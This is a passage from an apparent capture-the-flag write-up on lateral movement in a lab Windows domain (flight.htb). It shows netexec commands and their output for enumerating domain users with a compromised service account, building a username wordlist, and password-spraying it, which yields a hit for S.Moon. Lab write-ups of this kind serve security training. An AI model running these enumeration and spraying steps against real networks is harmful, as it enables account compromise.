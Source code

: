 # Lateral Movement 1

Now that we are credentialed in the Domain Controller, it is an easy task to gather info such as domain users and groups. Running [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) is an option but I rather do it manually.

```bash
netexec smb 10.129.228.120 -u "svc_apache" -p '<REDACTED>' --users 
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\svc_apache:<REDACTED> 
SMB         10.129.228.120  445    G0               [*] Trying to dump local users with SAMRPC protocol
SMB         10.129.228.120  445    G0               [+] Enumerated domain user(s)
SMB         10.129.228.120  445    G0               flight.htb\Administrator                  Built-in account for administering the computer/domain
SMB         10.129.228.120  445    G0               flight.htb\Guest                          Built-in account for guest access to the computer/domain
SMB         10.129.228.120  445    G0               flight.htb\krbtgt                         Key Distribution Center Service Account
SMB         10.129.228.120  445    G0               flight.htb\S.Moon                         Junion Web Developer
SMB         10.129.228.120  445    G0               flight.htb\R.Cold                         HR Assistant
...
```

Created the following **users.list** wordlist.

```bash
cat users.list                                                 
Administrator
Guest
krbtgt
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```

Being methodical with a **password spray** paid off, getting a hit for a user called 'S.Moon'.

```bash
netexec smb 10.129.228.120 -u users.list -p '<REDACTED>' --continue-on-success | grep -v '[-]' 
SMB         10.129.228.120  445    G0     [+] flight.htb\S.Moon:<REDACTED>  
SMB         10.129.228.120  445    G0     [+] flight.htb\svc_apache:<REDACTED> 
```
